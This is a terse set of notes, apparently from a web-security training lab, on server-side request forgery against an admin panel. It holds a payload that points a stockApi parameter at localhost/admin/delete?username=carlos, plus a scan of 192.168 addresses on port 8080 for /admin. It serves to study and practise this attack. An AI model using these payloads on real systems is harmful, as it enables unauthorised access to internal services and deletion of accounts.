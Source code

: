 ssrf - /admin
search for
-http://domain - https
-http://192.168 - https
1)search stockApi=http://localhost/admin/delete?username=carlos
2)http://192.168.§0§.§1§:8080/admin
